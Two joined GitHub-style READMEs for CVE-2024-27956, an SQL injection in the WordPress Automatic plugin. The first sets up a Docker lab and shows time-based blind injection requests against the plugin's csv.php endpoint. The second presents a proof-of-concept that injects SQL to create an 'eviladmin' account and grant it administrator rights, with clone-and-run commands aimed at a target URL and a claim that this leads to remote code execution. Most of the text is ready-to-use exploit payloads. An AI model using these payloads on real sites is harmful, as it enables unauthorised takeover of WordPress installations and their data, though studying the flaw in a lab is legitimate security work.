 
# CVE-2024-27956
Note

Build wordpress: docker-compose -f stack.yml up

Install plugin:
1. WordPress dashboard, choose Plugins > Add New

2. Click Upload Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/39c596dd-bb5c-457f-87e8-b811a1cd0f12)

3. Choose File -> wp-automatic.zip ->  Install Now

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/13880686-b083-458b-975d-2cab35c11fc0)

4. After the installation is complete, click Activate Plugin

![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/ecfc78d1-7a43-4ca1-88a0-d6e9db875e60)

Exploit

```<HOST>/wp-content/plugins/wp-automatic/inc/csv.php```

```q={{query}}&auth=%00&integ={{md5query}}```
```
q=SELECT+IF(1=1,sleep(5),sleep(0))&auth=%00&integ=93cf9aa11e746596d6f31765a7222c9f
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/f480537c-5961-4f15-9671-0cc4bf4afd8a)
```
q=SELECT+IF(1=2,sleep(5),sleep(0))&auth=%00&integ=4b1f4024af81df56c3b00679b9b52183
```
![image](https://github.com/truonghuuphuc/CVE-2024-27956/assets/20487674/7311aa48-9c2b-43a9-a858-6488badff071)

# CVE-2024-27956-RCE
A PoC for CVE-2024-27956, a SQL Injection in ValvePress Automatic plugin. This PoC exploit the vulnerability creating a user in the target and giving Administrator rights. Being an administrator in wordpress can lead to Remote Code Execution.

<h1>Usage</h1>

```
git clone https://github.com/diego-tella/CVE-2024-27956-RCE/
cd CVE-2024-27956-RCE
python CVE-2024-27956.py http://target.com
```

<h1>Payloads</h1>
SQL Injection payload to create a user:

```
q=INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_url, user_registered, user_status, display_name) VALUES ('eviladmin', '$P$BASbMqW0nlZRux/2IhCw7AdvoNI4VT0', 'eviladmin', 'eviladmin@gmail.com', 'http://127.0.0.1:8000', '2024-04-30 16:26:43', 0, 'eviladmin')
```

Giving admin rights:

```
q=INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES ((SELECT ID FROM wp_users WHERE user_login = 'eviladmin'), 'wp_capabilities', 'a:1:{s:13:\"administrator\";s:1:\"1\";}
```

In the q parameter, we can pass our entire query and then it will be executed.

![image](https://github.com/diego-tella/CVE-2024-27956-RCE/assets/70545257/0e24c3ee-52e0-4e7f-9eb1-b54e4096325f)
The user input is executed directly without any kind of restriction or sanitization.

<h1>PoC</h1>
<a href="https://www.youtube.com/watch?v=2y5siI-K-G0"><img src="Screenshot_2.png"></a>
